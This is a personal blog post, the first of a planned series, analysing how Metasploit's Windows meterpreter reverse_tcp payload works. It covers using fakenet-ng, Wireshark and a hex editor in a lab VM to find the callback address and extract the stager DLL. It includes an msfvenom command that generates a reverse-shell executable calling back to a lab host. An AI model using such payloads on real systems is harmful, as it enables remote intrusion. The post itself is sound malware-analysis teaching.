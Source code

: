 ```yaml
---
title: Reversing Metasploit Payload Part-1
author: malformX
date: 2022-03-05 23:05:00 +0530
categories: [Reversing, Analogy, metasploit]
tags: [RE, metasploit, IDA, Windows]
---
```


## Intro
Hello fellas. This is the first blog that I've ever created. This blog is totally about analyzing how metasploit framework's `reverse_tcp` shell for windows works. For any newbie reader, metasploit-framework is an amazing tool which can be used to do pen-testing. It also ships with `msfvenom` which is capable of generating raw shell-codes, platform specific payloads and reverse shells. I'm not going to talk and give a tutorial about metasploit or about how to hack a computer using metasploit here. For anyone who's interested, **Google is your ally**.

## Context
So, what the hell am i going to talk about then? This blog is totally about my analogy about that particular payload i mentioned. As a CTF player i used this payload a lot. And recently it made me wonder how this thing works. I mean a normal reverse shell can be acquired by simply spawing a cmd/powershell process. But a meterpreter who can also do lateral movement on the target machine? It is a whole different story. So i started seeing what is really happening under the hood. And i thought about archiving my understanding through blogging. This is actually going to be a series. So i'll post my findings as one thing at a time, or maybe two. Okay, maybe three, three at a time.

> I will try to understand and explain this mess deeply as much as possible. But if i failed to include anything here, those things would be mostly available in Google.
{: .prompt-note }

So let's dive in deeper.

## Observation
Let's talk about whatever i noted while using that particular payload. 
First i created the payload using the following command:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=testserver.dom LPORT=9000 -f exe > shell_dyna.exe`
This will create an exe(executable) file in the current working directory. Then i listened in the msfconsole shell for the connection. But before doing anything we can start by seeing what kind of file it is.

![image-20220227230908269](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227230908269.png) [^ note1]

We can copy it to our target machine. In my case my Win7 VM which was configured with [flare](https://github.com/mandiant/flare-vm) packages.
By opening the properties of the file we can see that the description tells it is an **ApacheBench command line utility**

![image-20220227231644992](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227231644992.png)

ApacheBench is a utility used to test the performance of the apache server. This description is sort of a evasion technique and it can evade the unexperienced eyes and avoid suspicion. Now let's see what are the strings embedded in the binary.

![image-20220227233246127](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227233246127.png)

It got some WinAPI function names. Probably these are the imports of our payload. We'll comeback to this later.

But what's interesting here is there are some strings embedded here which may look legit.

![image-20220227233647799](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227233647799.png)

These are common strings of a web server. And it even has the string ApacheBench. _Huh! What a legitimate application it is_.
But still there isn't any inclusion of the IP/domain_name/port_numbers which means this thing is obfuscated.
Now let's see how to get the C2 server's IP and what port it is trying to connect.

## Finding the C2 server's IP/Port

For this we can simply use [fakenet-ng](https://github.com/mandiant/flare-fakenet-ng). This tool can sniff all the network requests from applications. Also application's real request won't reach the server and also will save the network traffic to pcapng file which can be analyzed further with Wireshark . So safe from malwares talking to the C2, _yayyy_.

Let's open up the fakent-ng and execute our sneaky malware.
![image-20220227235608131](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227235608131.png)

That's it we got the IP and Port. But notice it is calling the IP address. But if you noticed [^ note1] here, i specified a domain name. To make it clear i binded the domain name `testserver.dom` to my IP by editing my `/etc/hosts` file. I did that so that i don't have to recreate the payload again and again if i change my network setting. But looks like the domain name is getting resolved to the IP. In fact it isn't possible to bind a non existing domain to the payload.

![image-20220228002242694](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220228002242694.png)

But any IP is possible. Even if it is out of reach.
Also one other thing that i noticed is, the application closes itself if the IP is dead.
Okay now let's see how we can capture the tcp data using wireshark and extract the stager DLL.

## Extracting the Stager

Listen in the meterpreter shell as i mentioned before. 

![image-20220305221334375](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221334375.png)

Let's open up our VM and make sure you have the malicious executable. But before running it up we need to make sure the wireshark is running with admin rights.

![image-20220305221531138](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221531138.png)

At first we won't see any traffic. Now let's run our exe and come back.

![image-20220305221636591](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221636591.png)

After double-clicking on our payload we get a call back from our victim machine. Now go back to wireshark, there'll be a bunch of tcp packets from the port 9000. And that 9000 is the port that was used to bind the payload.

![image-20220305221844135](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221844135.png)

We can follow the stream which will result in the whole data stream that was traveled on that session. We can do that by right clicking on the first packet which has the source port of 9000. And choosing `Follow` and then choosing `Tcp Stream` from the subsection there.

![image-20220305222422917](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305222422917.png)

Once we follow up, we'll get our stager.

![image-20220305222535831](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305222535831.png)

We can see it is starting with the default PE header which is `MZ` and we also see the message `This program cannot be run in DOS mode.` which is called `DOS-Stub`. These are the magic bytes for all windows executables. 
We can change the `Show data as` option to `raw` from `Ascii` which will include all the bits of binary data, then we can use `Save as` option and save it as raw. Let's save it as stager.dll for now. But when we check the file type it shows the file is just data.

![image-20220305223301698](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305223301698.png)

The reason for this is, if we noted in the Tcp Stream we can see there is bunch of data pre-pended to our stager. We can verify this by opening it in some hex viewer.

![image-20220305223755018](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305223755018.png)

 The first 4 bytes are pre-pended here. And it should probably be some kind of session initialization request. And i'll analyze about this in the further blog of this same series. But right now just edit this first 4 bytes and fix our DLL's header. We can open this in any hex editor and remove those 4 bytes.

![image-20220305224106044](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224106044.png)

Let's remove it now. 

![image-20220305224141396](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224141396.png)

Now we've fixed it. We can save it and let's check the file again.

![image-20220305224245266](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224245266.png)

And here we go. We can load it in any disassembler and verify it indeed is our DLL and not some prank by the malware author.

![image-20220305224506199](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224506199.png)

Okayyy, we actually see the `DllMain` right here. Which is good for us. Because this means the `main` function isn't obfuscated somewhere sketchy, and we don't have to go dig for it. And also we see a lots of function imports.

![image-20220305224707807](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224707807.png)

Good..!! GOOOD..
Now let's execute some command and see the network traffic.

![image-20220305224913019](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224913019.png)

And on our analysis machine..

![image-20220305225034911](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305225034911.png)

Note that i made a filter for showing the packets originating only from my attacker machine. But if you see the data it is encrypted. And it is because the DLL is using encryption on the transmitted data. 

## Conclusion

I just blogged a little fraction of the whole analysis int his post. In the next blog post i'll analyze it more and see what other things it does on the Go. I'll also post things that i forgot (or too lazy) to include here in this post. So let's see sometime later :)
